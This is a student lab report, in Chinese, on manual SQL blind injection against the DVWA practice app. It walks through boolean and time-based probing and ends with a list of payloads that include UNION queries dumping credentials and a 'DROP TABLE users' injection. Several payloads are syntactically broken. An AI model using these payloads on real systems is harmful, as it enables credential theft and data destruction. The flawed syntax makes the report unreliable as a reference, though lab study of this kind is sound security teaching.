

# **软件安全实验报告**

# **SQL盲注**

​                   姓名：郭子涵  学号：2312145  班级：信息安全、法学双学位班

------

**目录：**

[TOC]


## 实验要求

基于DVMA里的SQL盲注案例，实施手工盲注，参考课本，撰写实验报告。

## 实验内容

### 环境配置

在VMWARE中，打开OWASP虚拟机，按照提示输入用户名`root`和密码`owaspbwa`后，输入命令行`iconfig`,可以看到对应的网址。


我们在本机输入该网站，就进入了对应的页面：


选择进入DVWA：



登录，账号和密码均为`admin`，我们就进入Damn Vulnerable Web App。


进入左边的DVWA Security界面，将等级设置为low，至此环境配置结束。

### 第一步：判断是否存在注入，注入是字符型还是数字型

输入1，显示相应用户存在


输入1’and 1=1，显示如下：


输入1’and 1=2，没有输出，==说明存在字符型SQL盲注==。


点击右下角View Source查看源代码：


这段 代码存在一个典型的 **SQL 盲注漏洞**，主要功能是处理用户输入的 `id` 参数并查询数据库中的用户信息。以下是核心逻辑和漏洞分析：

1. **获取用户输入**  ：当用户通过 URL 参数 `Submit` 发起 GET 请求时（如 `?Submit&id=1`），代码会读取 `id` 参数值（`$id = $_GET['id']`）。
   
2. **构造 SQL 查询**  直接将用户输入的 `$id` 拼接到 SQL 语句中：  
   
   ```sql
   SELECT first_name, last_name FROM users WHERE user_id = '$id'
   ```
   
3. **执行查询并输出结果**  
   
   - 通过 `mysql_query()` 执行 SQL 语句（已弃用的 MySQL 扩展）。  
   - 使用 `@mysql_numrows()`（`@` 符号抑制错误）获取结果行数。  
   - 循环遍历结果，输出 `first_name` 和 `last_name`。

**关键漏洞：SQL 盲注**

1. **未过滤输入**：用户输入的 `$id` 直接拼接到 SQL 语句中，未做任何转义或过滤。  
2. **错误被抑制**：`@` 符号隐藏了数据库错误信息（如语法错误），使攻击者无法直接看到报错内容（即“盲注”）。

### 第二步：猜解当前数据库名

输入`1’and length(database()))=1`，显示不存在，依次增加，直到输入`1’and length(database())=4`，显示用户存在，则说明数据据库名长度为4


**二分法尝试猜解数据库名：**

输入`1’and ascii(database(),1,1))>97#`,存在说明数据库名的第一个字符的ascii值大于97。


输入`1’and ascii(database(),1,1))>122#`,存在说明数据库名的第一个字符的ascii值小于122。


输入`1’and ascii(database(),1,1))<109#`,存在说明数据库名的第一个字符的ascii值小于109。


直到最后，输入`1’and ascii(database(),1,1))=100#`,存在说明数据库名的第一个字符的ascii值=100，**即为小写字母d**。


按照此方法重复上述步骤，猜解出数据库的名称为`dvwa`

### 第三步：猜解数据库中的表名

输入` 1' and (select count(table_name) from information_schema.tables where table_schema=database())=1 # `结果不显示；

输入`1' and (select count(table_name) from information_schema.tables where table_schema=database())=2 # ，`显示用户存在，即说明数据库中有两个表。


然后使用二分法来继续猜解表名，同样首先猜解数据库表名的长度，再猜解每个字母的ascii符。此处图片较多不再赘述，直接给出我们最后猜解的结果为：`guestbook,users`

### 第四步：猜解表中的字段名

首先猜解表中的字段的数量：

确定`users`表的字段数量，然后再挨个猜解表中字段名以及表中的数据。


### 基于时间的SQL盲注

使用基于时间的SQL盲注方法：

输入`1’and if(length(database())=1,sleep(5),1)#)`，没有延迟；输入`1’and if(length(database())=4,sleep(5),1)#)`时，有明显的延迟，说明数据库名长度为4，也表示我们的基于时间的SQL盲注成功！


## 心得体会

​	通过本次实验，了解了SQL盲注攻击的概念、原理和常见的注入Payload示例，并结合DVWA靶场SQL Injection (Blind)模块进行思路分析及攻击姿势展开实践。

​	通过查阅资料了解到：SQL盲注的两种主要形式是：

- 基于布尔的盲注（Boolean-based Blind Injection）：攻击者通过注入条件语句，利用应用程序中基于布尔条件的判断来获取有关数据库内容的信息。攻击者可以尝试不同的条件并根据应用程序的响应来验证其正确性。页面会返回报错信息

- 基于时间的盲注（Time-based Blind Injection）：攻击者在注入语句中使用延时函数或计算耗时操作，以观察应用程序对恶意查询的处理时间。通过观察响应时间的变化，攻击者可以逐渐推断数据库中的数据。页面不会返回任何报错信息
  基于时间的盲注通常会使用一些可能引起延迟或错误的操作，如睡眠函数sleep()、错误的 SQL 语句或其他耗时的操作。
- 错误盲注：攻击者通过构造会触发错误信息的语句，将数据库信息泄露在错误提示中。

​	同时我也分类总结了常见的盲注Payload:

**一、布尔盲注**

1. `id=1 AND (SELECT COUNT(*) FROM users) > 0`  
   - **作用**：探测`users`表是否存在。若页面正常返回，说明表中至少有一条记录。  
2. `id=1 AND SUBSTRING((SELECT version()), 1, 1) = '5'`  
   - **作用**：检查数据库版本首位是否为`5`（如MySQL 5.x）。`SUBSTRING`逐字符截取版本信息。  
3. `id=1 AND ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'), 1, 1)) = 97`  
   - **作用**：爆破`admin`用户密码的首字符（ASCII值`97`对应字母`a`）。  
4. `id=1 AND (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema='public') > 10`  
   - **作用**：探测`public`模式下表数量是否大于10，用于推断数据库结构。  
5. `id=1 AND LENGTH((SELECT database())) = 6`  
   - **作用**：检查当前数据库名称长度是否为6字符。

**二、时间盲注**

**原理**：通过条件触发的延时响应（如`SLEEP()`）判断真假。  
1. `id=1; IF((SELECT COUNT(*) FROM users) > 0, SLEEP(5), NULL)`  
   - **作用**：若`users`表存在记录，则页面响应延迟5秒。  
2. `id=1; IF((SELECT ASCII(SUBSTRING(...)) = 97, BENCHMARK(10000000, MD5('a')), NULL)`  
   - **作用**：通过`BENCHMARK`函数制造CPU密集型延迟，验证密码首字符是否为`a`。  
3. `id=1; IF(EXISTS(SELECT * FROM ... table_name='users'), BENCHMARK(...), NULL)`  
   - **作用**：若存在`users`表，则触发延时。  
4. `id=1; IF((SELECT COUNT(*) FROM ...) = 5, SLEEP(2), NULL)`  
   - **作用**：探测`users`表的列数是否为5。  
5. `id=1; IF((SELECT SUM(LENGTH(username)) FROM users) > 20, BENCHMARK(...), NULL)`  
   - **作用**：检查所有用户名的总长度是否超过20字符。

**三、错误盲注**

1. `id=1 UNION ALL SELECT 1,2,table_name FROM information_schema.tables`  
   - **作用**：联合查询直接获取所有表名（依赖错误回显或页面显示位置）。  
2. `id=1 UNION ALL SELECT 1,2,column_name FROM ... WHERE table_name='users'`  
   - **作用**：获取`users`表的所有列名。  
3. `id=1 UNION ALL SELECT username,password,3 FROM users`  
   - **作用**：直接泄露`users`表的账号密码。  
4. `id=1'; SELECT * FROM users WHERE username='admin' --`  
   - **作用**：注释后续语句并执行查询`admin`用户（需报错回显结果）。  
5. `id=1'; DROP TABLE users; --`  
   - **作用**：危险操作,直接删除`users`表（用于破坏性测试）。
   
   综上所述，本次实验收获很多。
